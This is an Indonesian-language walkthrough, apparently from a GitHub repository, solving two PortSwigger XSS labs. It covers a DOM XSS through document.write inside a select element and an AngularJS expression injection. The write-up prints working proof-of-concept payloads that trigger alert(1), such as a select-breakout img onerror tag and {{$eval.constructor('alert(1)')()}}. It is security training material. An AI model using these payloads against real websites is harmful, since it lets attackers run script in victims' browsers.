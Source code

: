 # Cross-site scripting (XSS)

## DOM XSS in document.write sink using source location.search inside a select element
- Celah keamanan berada di halaman detail produk
- Klik tombol **View details**

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%201.JPG)

- Klik kanan halaman kemudian pilih **Lihat Kode Sumber Halaman**

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%202.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%203.jpg)

- Akan ditemukan function javascript sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%204.JPG)

- Sekarang kita coba tambahkan parameter `storeId` pada URL kemudian tekan enter

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%205.JPG)

- Akan muncul list sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%206.jpg)

- Masukkan payload berikut pada URL kemudian tekan enter
```sh
&storeId="></select><img%20src=1%20onerror=alert(1)>
```

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%207.JPG)

- Selain payload diatas, anda juga bisa menggunakan payload dibawah ini
```sh
&storeId=</option></select><img%20src=1%20onerror=alert(1)>
```
- Payload diatas akan membentuk nilai sebagai berikut, sehingga menyebabkan kerentanan XSS
```sh
<select name="storeId"><option selected="">storeId="></option></select>
<img src="1" onerror="alert(1)">
```

## DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
- Celah keamanan XSS berada di fitur pencarian (Search)

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%208.JPG)

- Ketik 'test' pada field pencarian lalu tekan tombol **Search**

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%209.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%2010.JPG)

- Klik kanan halaman kemudian pilih **Lihat Kode Sumber Halaman**

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%2011.jpg)

- Terdapat informasi bahwa halaman menggunakan AngularJS versi 1.7.7 dan hasil pencarian terdapat dalam elemen body dengan atribut `ng-app` yang merupakan direktif AngularJs. Dengan direktif AngularJs kita bisa menjalankan javascript dalam kurung kurawal ganda

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%2012.JPG)

- Jika kita klik link src nya akan tampil library angular js versi 1.7.7

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%2013.JPG)

- Untuk memastikan bahwa kita berada di elemen ng-app Directive kita bisa memasukkan string sebagai berikut
```sh
{{2 + 3}}
```
![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%2014.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%2015.JPG)

- Sekarang kita masukkan payload XSS menggunakan object default pada angularJS
```sh
{{$eval.constructor('alert(1)')()}}
```

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%2016.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%2017.JPG)

- Selain payload diatas anda juga bisa menggunakan payload berikut ini
```sh
{{$on.constructor('alert(1)')()}}
{{$watch.constructor('alert(1)')()}}
```

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/PRACTITIONER/assets/xss%2018.JPG)

- Fungsi `$on.constructor('alert(1)')()` mirip dengan javascript sebagai berikut
```sh
function (){
   alert(1);
}
```